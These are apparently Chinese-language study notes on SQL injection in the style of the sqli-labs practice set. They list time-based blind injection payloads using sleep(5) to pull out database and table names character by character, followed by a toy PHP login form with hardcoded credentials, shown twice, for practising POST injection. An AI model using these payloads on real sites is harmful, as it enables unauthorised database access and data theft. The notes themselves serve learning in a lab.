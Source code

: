 ```
id=2' and if(   (select database())="security"  , sleep(5)  ,   null) --+
?id=2' and if((select ascii(substr(database(),1,1)))=115,sleep(5),null) --+
id=2' and if(   (select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)  ='e',sleep(5),null) --+
```

database() 如果不想写，可以写security的hex值

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>haha</title>
</head>
<body>

<form action="" method="POST">
username:<input type="text" name="uname" /><br/>
password:<input type="password" name="upwd"/><br/>
<input type="submit" value="click me"/>

</form>

<?php

$name = $_POST['uname'];
$pwd = $_POST['upwd'];

if($name=="admin"&&$pwd=="123"){
    echo "success";
}else{
    echo "fail";
}


?>


</body>
</html>
```

## post 注入

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>haha</title>
</head>
<body>

<form action="" method="POST">
username:<input type="text" name="uname" /><br/>
password:<input type="password" name="upwd"/><br/>
<input type="submit" value="click me"/>

</form>
```